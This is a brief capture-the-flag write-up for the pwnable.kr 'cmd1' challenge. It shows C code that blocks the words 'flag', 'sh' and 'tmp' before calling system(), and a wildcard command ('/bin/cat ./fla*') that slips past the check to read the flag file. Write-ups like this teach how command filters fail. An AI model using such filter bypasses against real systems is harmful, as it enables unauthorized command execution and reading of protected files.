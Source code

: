 # Description
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)

# Exploitation
```c
int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}

if(filter(argv[1])) return 0;
system( argv[1] );
```
This code checks whether argv[1] contain 'flag', 'sh', 'tmp' or not.

To get shell or get flag, Almost try to pass argv[1] as 'cat flag' or 'sh'.

To bypass that, I used '/bin/cat ./fl*' then it can bypass 'flag' word check.

```
cmd1@ubuntu:~$ ./cmd1 "/bin/cat ./fla*"
mommy now I get what PATH environment is for :)
cmd1@ubuntu:~$
```
